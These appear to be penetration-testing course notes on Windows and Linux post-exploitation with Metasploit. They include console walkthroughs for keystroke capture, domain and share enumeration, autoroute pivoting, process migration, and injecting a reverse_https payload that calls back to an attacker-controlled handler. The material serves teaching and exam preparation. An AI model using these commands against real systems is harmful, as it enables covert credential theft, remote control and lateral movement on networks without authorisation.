




# Unit - 5
:::info[TITLE]
## Post Exploitation : Windows
:::

## 1. Post-Exploitation Fundamentals

### 1.1 Introduction to Post-Exploitation
#### 1.1.1 Definition
**Post-Exploitation** refers to the phase in a cybersecurity attack or penetration testing assessment that takes place after an attacker or security analyst has successfully compromised a target system and gained an initial foothold or unauthorized access.

Rather than ending with a successful shell or session, post-exploitation focuses on exploring, maintaining, and maximizing control over the compromised environment according to the rules of engagement.

#### 1.1.2 Position in the Penetration Testing Lifecycle
In ethical hacking and Vulnerability Assessment and Penetration Testing (VAPT), the engagement progresses through distinct phases:



Post-exploitation bridges the gap between simply demonstrating an initial vulnerability and illustrating true business risk (such as data breach, lateral compromise, or persistent administrative takeover).

### 1.2 Core Objectives of Post-Exploitation
During ethical security testing, a professional leverages the initial foothold to conduct systematic evaluations across several key operational goals:

#### 1.2.1 Exploration and Internal Reconnaissance
- Gathering host system specifications (operating system, kernel, architecture, patch levels).
- Discovering local and domain user accounts, privileges, and group memberships.
- Identifying internal network interfaces, subnets, and active connections.
- Locating running processes, installed software, and vulnerable local services.

#### 1.2.2 Privilege Escalation
- Elevating access from a low-privileged user account (e.g., standard domain user or local service account) to administrative or root level (e.g., `NT AUTHORITY\SYSTEM` or local `Administrator`).
- Evaluating misconfigurations, unquoted service paths, token privileges, and kernel exploits.

#### 1.2.3 Lateral Movement and Network Pivoting
- Utilizing the compromised machine as a proxy or bridgehead to access protected internal network segments that are not directly reachable from the attacker's machine.
- Enumerating domain trusts, network shares, and adjacent internal systems.

#### 1.2.4 Data Exfiltration
- Identifying high-value target assets, such as intellectual property, databases, configuration files, and credentials.
- Simulating controlled exfiltration to test defensive Data Loss Prevention (DLP) and monitoring systems.

#### 1.2.5 System Manipulation and Persistence
- Testing whether administrative persistence mechanisms (e.g., scheduled tasks, registry run keys, or injected services) can be established.
- Verifying audit log visibility, alerting thresholds, and system event tampering detection.

### 1.3 Metasploit Post-Exploitation Architecture
#### 1.3.1 Module Organization
The Metasploit Framework organizes its post-exploitation capabilities under dedicated `post/` module namespaces structured by operating system and functional objective:



#### 1.3.2 Session Interaction Workflow
Post-exploitation modules operate against an active session (e.g., Meterpreter or command shell). The standard operator workflow involves:
1. Gaining an initial session via an exploit module.
2. Backgrounding the interactive session (`background` command or `Ctrl+Z`).
3. Loading the desired post-exploitation module via `use post/<platform>/<type>/<module_name>`.
4. Binding the target session number using `set SESSION <id>`.
5. Running the module with `run` or `exploit`.

## 2. Post Capture Modules (Windows)

### 2.1 Overview of Capture Modules
#### 2.1.1 Purpose and Functional Role
**Capture modules** (`post/windows/capture/`) are designed to harvest sensitive user interactions, runtime data, and authentication credentials actively passing through the compromised host. Capabilities include keystroke logging, clipboard extraction, webcam monitoring, and screen recording.

#### 2.1.2 Windows Session Isolation and Interactive Processes
In modern Windows architectures (Windows Vista and newer), the operating system implements **Session 0 Isolation**:
- **Session 0:** Reserved exclusively for background system services and non-interactive daemon processes.
- **Session 1+:** Dedicated to interactive logged-in user desktop sessions (Explorer, GUI applications).



:::warning[IMPORTANT]
If a post-exploitation session resides inside a Session 0 service process, it **cannot** receive desktop keystrokes. Capturing keystrokes requires migrating into an active interactive process running within the logged-in user's desktop session.
:::

### 2.2 Keylogger Recorder (`keylog_recorder`)
#### 2.2.1 Module Definition
The `keylog_recorder` module (`post/windows/capture/keylog_recorder`) continuously records keyboard input made by the logged-on user on the compromised system. It logs raw keystrokes along with the active window title and timestamp, storing the captured data in Metasploit's local loot directory.

#### 2.2.2 Critical Requirement: Process Migration
Before running `keylog_recorder`, the analyst must verify that the Meterpreter payload resides in an interactive process (commonly `explorer.exe`).
- Running a keylogger inside a non-interactive service process produces an empty log file or causes capture failure because the process receives no Windows desktop input messages.
- Migrating into `explorer.exe` guarantees that all interactive window focus events and key presses are intercepted.

#### 2.2.3 Execution Workflow
The following console sequence illustrates backgrounding an active Meterpreter session, loading `keylog_recorder`, configuring parameters, and running the module:

```bash showLineNumbers
meterpreter > getuid
Server username: TARGET\victim_user
meterpreter > ps -s
  PID   PPID  Name          Arch  Session  User
  ----  ----  ----          ----  -------  ----
  1420  1350  explorer.exe  x64   1        TARGET\victim_user
meterpreter > migrate 1420
[*] Migrating from 3048 to 1420...
[*] Migration completed successfully.
meterpreter > background
Background session 1? [y/N] y
msf6 > use post/windows/capture/keylog_recorder
msf6 post(windows/capture/keylog_recorder) > info
msf6 post(windows/capture/keylog_recorder) > set SESSION 1
SESSION => 1
msf6 post(windows/capture/keylog_recorder) > show options
msf6 post(windows/capture/keylog_recorder) > run
[*] Executing module against TARGET
[*] Starting the keystroke sniffer...
[+] Keystrokes being recorded to: /root/.msf4/loot/20261001_keylog_123456.txt
```

#### 2.2.4 Log File Inspection
The module creates a text file under Metasploit's local loot repository containing:
- Target IP and machine hostname.
- Active window titles (e.g., `[Chrome - Login Page]`, `[KeePass Password Safe]`).
- Exact keystrokes, including backspaces, special characters, and credentials entered.

## 3. Post Gather Modules (Windows)

### 3.1 Overview of Windows Gather Modules
#### 3.1.1 Purpose in Host and Domain Intelligence
**Gather modules** (`post/windows/gather/`) query the compromised system's registry, Active Directory services, file system, and API endpoints to extract intelligence without altering system state or installing persistent binaries.

#### 3.1.2 Standard Execution Parameters
Windows gather modules typically require only one mandatory option:
- `SESSION`: The identifier of the active Meterpreter or shell session to run against.

### 3.2 Domain Enumeration (`enum_domain`)
#### 3.2.1 Module Identification
- **Module Path:** `post/windows/gather/enum_domain`
- **Core Function:** Automatically enumerates comprehensive information regarding the Windows Active Directory domain to which the compromised host belongs.

#### 3.2.2 Information Gathered
When executed, `enum_domain` extracts:
- Primary Domain Controller (PDC) and backup Domain Controllers (name and IP addresses).
- Domain NetBIOS and Fully Qualified Domain Name (FQDN).
- Active Directory domain trust relationships (inbound, outbound, transitive trusts).
- Global domain user accounts and Domain Admin group members.
- Computer accounts joined to the target domain.

```bash
msf6 > use post/windows/gather/enum_domain
msf6 post(windows/gather/enum_domain) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/enum_domain) > run
[*] Running module against TARGET-PC
[*] Domain: CONTOSO.LOCAL
[*] Domain Controller: DC01.CONTOSO.LOCAL (192.168.10.5)
[*] Enumerating Domain Groups and Accounts...
```

### 3.3 Logged-On Users Enumeration (`enum_logged_on_users`)
#### 3.3.1 Module Identification
- **Module Path:** `post/windows/gather/enum_logged_on_users`
- **Core Function:** Retrieves detailed information about users who are currently logged on or have recently logged onto the compromised system.

#### 3.3.2 Information Gathered
- **Active Interactive Users:** Users currently controlling an active desktop or console session.
- **Remote Desktop Protocol (RDP) Sessions:** Active or disconnected RDP sessions.
- **Cached User Profiles:** User profile folders located under `C:\Users\` along with registry hive mappings (`HKEY_USERS`), showing accounts that previously authenticated to the host.
- **Security Context:** Identifies high-privilege administrative accounts that have sessions or credentials cached in memory, highlighting targets for token impersonation or credential harvesting.

### 3.4 Shared Resources Enumeration (`enum_shares`)
#### 3.4.1 Module Identification
- **Module Path:** `post/windows/gather/enum_shares`
- **Core Function:** Lists all network shared resources (SMB shares) configured on or accessible by the target host.

#### 3.4.2 Information Gathered
- Standard file and folder shares accessible to network clients.
- Hidden administrative shares (such as `C$`, `ADMIN$`, `IPC$`, and `PRINT$`).
- Currently mapped network drives (e.g., `Z:\` pointing to `\\fileserver\finance`).
- Local directory paths backing each shared resource and share permissions.

> [!TIP]
> Administrative and readable file shares frequently contain unencrypted backup files, scripts with hardcoded credentials, and configuration files that assist in lateral movement.

### 3.5 PowerShell Environment Enumeration (`enum_powershell_env`)
#### 3.5.1 Module Identification
- **Module Path:** `post/windows/gather/enum_powershell_env`
- **Core Function:** Gathers technical details regarding the PowerShell runtime environment, configuration settings, and execution history on the compromised host.

#### 3.5.2 Information Gathered
- **PowerShell Engine Versions:** Checks for PowerShell v2.0 through v5.1+ (older versions may lack modern script block logging or Anti-Malware Scan Interface [AMSI] integration).
- **Execution Policy:** Reports local, user, and machine execution policies (`Restricted`, `RemoteSigned`, `Unrestricted`, `Bypass`).
- **Profile Scripts:** Detects existing `$PROFILE` files that execute automatically upon PowerShell launch.
- **PowerShell History & Transcripts:** Identifies console history files (e.g., `ConsoleHost_history.txt`), which frequently reveal previously typed administrator commands, internal network paths, and plaintext passwords.

### 3.6 Comparison Table: Windows Gather Modules

| Module Name | Full Module Path | Primary Output / Intelligence | Value in Penetration Testing |
|---|---|---|---|
| **enum_domain** | `post/windows/gather/enum_domain` | Domain Controllers, FQDN, domain trusts, domain groups | Maps entire Active Directory perimeter and targets Domain Admins |
| **enum_logged_on_users** | `post/windows/gather/enum_logged_on_users` | Current interactive users, disconnected RDP, cached profiles | Targets high-privilege tokens for memory dumping or impersonation |
| **enum_shares** | `post/windows/gather/enum_shares` | SMB shares, mapped drives, administrative shares (`C$`, `ADMIN$`) | Identifies internal shared repositories containing sensitive files |
| **enum_powershell_env** | `post/windows/gather/enum_powershell_env` | PS version, execution policy, profile locations, history paths | Assesses scripting capabilities, logging levels, and credential leaks |

## 4. Post Manage Modules (Windows)

### 4.1 Overview of Post Manage Modules
#### 4.1.1 Purpose and Control Capabilities
**Manage modules** (`post/windows/manage/` and `post/multi/manage/`) perform state-changing maintenance, process manipulation, routing modifications, and operational cleanup tasks on the compromised system.

Unlike gather modules (which are read-only), manage modules actively execute configuration modifications, spawn processes, or alter operating system state.

### 4.2 Network Pivoting with Autoroute (`autoroute`)
#### 4.2.1 Concept of Network Pivoting
In enterprise environments, internal database servers and domain controllers frequently reside behind firewalls in private subnets (e.g., `10.10.20.0/24`) that cannot be reached directly from the penetration tester's external system.

When an external-facing dual-homed machine (e.g., a web server with both external and internal NICs) is compromised, the tester turns that host into a **pivot point**:



#### 4.2.2 Module Functionality
The `autoroute` module (`post/windows/manage/autoroute` or `post/multi/manage/autoroute`) automatically adds routing entries into the Metasploit Framework's internal routing table.

This allows any subsequent Metasploit auxiliary scanner, exploit, or payload to seamlessly route its network packets through the established Meterpreter session into the target's internal subnet.

#### 4.2.3 Routing Configuration Syntax
```bash showLineNumbers
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set CMD add
msf6 post(multi/manage/autoroute) > set SUBNET 10.10.20.0
msf6 post(multi/manage/autoroute) > set NETMASK 255.255.255.0
msf6 post(multi/manage/autoroute) > run
[*] Adding a route to 10.10.20.0/255.255.255.0...
[+] Route added to subnet 10.10.20.0/255.255.255.0 through session 1.
msf6 post(multi/manage/autoroute) > set CMD print
msf6 post(multi/manage/autoroute) > run
IPv4 Active Routing Table
=========================
   Subnet                Netmask               Gateway
   ------                -------               -------
   10.10.20.0            255.255.255.0         Session 1
```

Once the route is registered, running an internal port scanner (such as `auxiliary/scanner/portscan/tcp`) against `10.10.20.50` tunnels all scanning packets through Session 1 without requiring physical access to the internal network.

### 4.3 User Account Management (`delete_user`)
#### 4.3.1 Module Functionality
- **Module Path:** `post/windows/manage/delete_user`
- **Core Function:** Deletes a specified user account from the compromised Windows operating system.

#### 4.3.2 Operational Use Cases and Syntax
During penetration testing assessments, testers may create a temporary testing account to validate administrative access. Once testing concludes, the account must be safely removed to restore the host to its original security posture:

```bash
msf6 > use post/windows/manage/delete_user
msf6 post(windows/manage/delete_user) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/delete_user) > set USER testadmin
USER => testadmin
msf6 post(windows/manage/delete_user) > run
[*] Deleting user: testadmin on TARGET-PC
[+] Successfully deleted user: testadmin
```

> [!NOTE]
> Deleting accounts requires local administrative or `NT AUTHORITY\SYSTEM` privileges on the target system.

### 4.4 Process Migration (`migrate`)
#### 4.4.1 Module Functionality
- **Module Path:** `post/windows/manage/migrate`
- **Core Function:** Moves the active Meterpreter payload from its current host process into another process memory space on the target machine.

#### 4.4.2 Automatic Spawning vs. Explicit PID Targeting
The `migrate` module provides two operational behaviors:
1. **Explicit PID Target:** Migrates directly into a known process ID specified by the `PID` option (e.g., migrating into `explorer.exe` or `svchost.exe`).
2. **Automatic Process Spawning:** If no PID is specified, the module automatically spawns a new benign host process (such as `notepad.exe` or `calc.exe`) in the background and injects the Meterpreter payload into it.

```bash showLineNumbers
msf6 > use post/windows/manage/migrate
msf6 post(windows/manage/migrate) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/migrate) > show options
Module options (post/windows/manage/migrate):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   KILL     false            no        Kill the original process
   NAME                      no        Target process name to migrate to
   PID                       no        Target PID to migrate to
   SESSION  1                yes       The session to run this module on.
   SPAWN    true             no        Spawn a new process if PID/NAME not specified

msf6 post(windows/manage/migrate) > run
[*] Running module against TARGET-PC
[*] Spawning notepad.exe process...
[*] Migrating into 4184...
[+] Successfully migrated into process 4184
```

#### 4.4.3 Operational Benefits
- **Session Stability:** If the original exploit hijacked an unstable application (e.g., a vulnerable browser tab or PDF reader) that the user might close, migrating to a background process prevents losing the session.
- **Defense Evasion:** Relocating into standard system processes obscures anomalous behavior from basic task inspection tools.

### 4.5 Multi Meterpreter Inject (`multi_meterpreter_inject`)
#### 4.5.1 Module Functionality
- **Module Path:** `post/windows/manage/multi_meterpreter_inject`
- **Core Function:** Injects a specified Metasploit payload into a running process on the compromised host, establishing a secondary or redundant connection.

#### 4.5.2 In-Memory Injection and Process Spawning
- **Targeting an Existing Process:** If the `PID` parameter is configured, the module injects shellcode directly into that process's address space using Windows memory allocation (`VirtualAllocEx`) and thread creation (`CreateRemoteThread`) APIs.
- **Automatic Process Creation:** If no PID value is provided, the module automatically spawns a new process and injects the payload into it.

#### 4.5.3 Payload Flexibility
Although the module name contains `meterpreter`, **any payload can be specified**:
- Secondary Meterpreter payloads (e.g., `windows/meterpreter/reverse_https` for SSL encryption when the original session used standard TCP).
- Standalone command shells (`windows/shell/reverse_tcp`).
- VNC injection payloads (`windows/vncinject/reverse_tcp`) for graphical remote desktop control.

```bash showLineNumbers
msf6 > use post/windows/manage/multi_meterpreter_inject
msf6 post(windows/manage/multi_meterpreter_inject) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/multi_meterpreter_inject) > set PAYLOAD windows/meterpreter/reverse_https
msf6 post(windows/manage/multi_meterpreter_inject) > set LHOST 192.168.1.50
msf6 post(windows/manage/multi_meterpreter_inject) > set LPORT 8443
msf6 post(windows/manage/multi_meterpreter_inject) > run
[*] Running module against TARGET-PC
[*] Creating a new process to host payload...
[*] Injecting payload into process 5280...
[*] Handler started on 192.168.1.50:8443
[+] Meterpreter session 2 opened!
```

## 5. Post Gather Modules (Linux)

### 5.1 Overview of Linux Post-Exploitation
#### 5.1.1 Operational Context
Post-exploitation on Linux targets follows the same conceptual methodology as Windows, but interacts with the Linux Virtual File System (VFS), POSIX permissions, PAM authentication, and daemon configuration files (`/etc/`) instead of the Windows Registry and Active Directory.

### 5.2 Application Configuration Enumeration (`enum_configs`)
#### 5.2.1 Module Identification and Purpose
- **Module Path:** `post/linux/gather/enum_configs`
- **Core Function:** Automatically parses the file system to discover and harvest configuration files from commonly installed Linux applications, server daemons, and administrative utilities.

#### 5.2.2 Targeted Services
The module systematically searches for configurations associated with:
- **Web Servers:** Apache (`/etc/apache2/`, `/etc/httpd/`), Nginx, Lighttpd.
- **Database Servers:** MySQL / MariaDB (`/etc/mysql/my.cnf`), PostgreSQL.
- **File & Print Sharing:** Samba (`/etc/samba/smb.conf`), NFS exports.
- **Mail Transfer Agents:** Sendmail, Postfix, Dovecot.
- **Remote Access & Network:** OpenSSH (`/etc/ssh/sshd_config`), OpenVPN.

#### 5.2.3 Default Path Assumption Mechanism
The module relies on standardized package management paths. If a configuration file exists at its standard default location, the module automatically identifies it as a valid target, downloads its contents, and archives it into Metasploit's local loot repository.

#### 5.2.4 Step-by-Step Execution Workflow
The following console interaction demonstrates loading and running `post/linux/gather/enum_configs` against an established Linux session:

```bash showLineNumbers
msf6 > use post/linux/gather/enum_configs
msf6 post(linux/gather/enum_configs) > show options

Module options (post/linux/gather/enum_configs):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf6 post(linux/gather/enum_configs) > set SESSION 1
SESSION => 1
msf6 post(linux/gather/enum_configs) > run
[*] Running module against kali
[*] Info:
[*] Kali GNU/Linux 1.0.6
[*] Searching for Apache configuration files...
[+] Found: /etc/apache2/apache2.conf
[*] Searching for MySQL configuration files...
[+] Found: /etc/mysql/my.cnf
[*] Searching for Samba configuration files...
[+] Found: /etc/samba/smb.conf
[*] Module execution completed.
```

#### 5.2.5 Security Impact of Harvested Configurations
Gathering server configuration files allows penetration testers to uncover:
- Plaintext database administrative passwords embedded in configuration files.
- Misconfigured web root paths, alias definitions, and virtual host settings.
- Insecure permissions, anonymous share settings, or disabled authentication directives.
- Internal IP addresses, upstream proxy configurations, and external API credentials.

## 6. Exam Review Summary and Cheat Sheet

### 6.1 Post-Exploitation Modules Quick Reference

| Module Name | Full Namespace | Category | Platform | Primary Purpose & Key Setting |
|---|---|---|---|---|
| **keylog_recorder** | `post/windows/capture/keylog_recorder` | Capture | Windows | Captures user keystrokes into loot; **must migrate to interactive process** first. |
| **enum_domain** | `post/windows/gather/enum_domain` | Gather | Windows | Discovers Active Directory domain name, Domain Controllers, and domain trusts. |
| **enum_logged_on_users** | `post/windows/gather/enum_logged_on_users` | Gather | Windows | Identifies actively logged-in users, active/disconnected RDP, and profile directories. |
| **enum_shares** | `post/windows/gather/enum_shares` | Gather | Windows | Lists shared folders, administrative shares (`C$`), and mapped network drives. |
| **enum_powershell_env** | `post/windows/gather/enum_powershell_env` | Gather | Windows | Gathers PowerShell version, execution policies, profile locations, and history logs. |
| **autoroute** | `post/multi/manage/autoroute` | Manage | Multi / Windows | Adds routing entries through a Meterpreter session to enable network pivoting. |
| **delete_user** | `post/windows/manage/delete_user` | Manage | Windows | Deletes a specified user account (`USER`) from the compromised Windows machine. |
| **migrate** | `post/windows/manage/migrate` | Manage | Windows | Moves session into another PID; automatically spawns a new process if PID is omitted. |
| **multi_meterpreter_inject** | `post/windows/manage/multi_meterpreter_inject` | Manage | Windows | Injects a selected payload into an existing or newly spawned process. |
| **enum_configs** | `post/linux/gather/enum_configs` | Gather | Linux | Collects standard config files for Apache, MySQL, Samba, Sendmail from default paths. |

### 6.2 Key Distinctions and Exam Tips

1. **Exploitation vs. Post-Exploitation:**
   - *Exploitation* is the act of weaponizing a specific vulnerability to breach the security perimeter and establish an initial foothold.
   - *Post-Exploitation* begins after access is achieved, focusing on discovery, privilege escalation, lateral pivoting, and data exfiltration.

2. **Why `keylog_recorder` Fails in Non-Interactive Processes:**
   - Windows Session 0 Isolation prevents service processes from receiving user interface input messages.
   - You must always migrate the Meterpreter session into an interactive user process (such as `explorer.exe` in Session 1) before starting keystroke capture.

3. **Pivoting Mechanism with `autoroute`:**
   - `autoroute` alters the routing table *within Metasploit*, telling the framework to forward packets for a target subnet through an existing Meterpreter session.
   - It enables auxiliary scanners and exploits to target internal, unroutable networks without deploying a secondary external exploit.

4. **Process Migration vs. Payload Injection:**
   - **`migrate`:** *Transfers* the currently executing Meterpreter session from the current process to a target process (terminating execution in the original process).
   - **`multi_meterpreter_inject`:** *Spawns or injects a new, independent payload* into another process, allowing the operator to maintain multiple concurrent, redundant sessions or alternative communication protocols.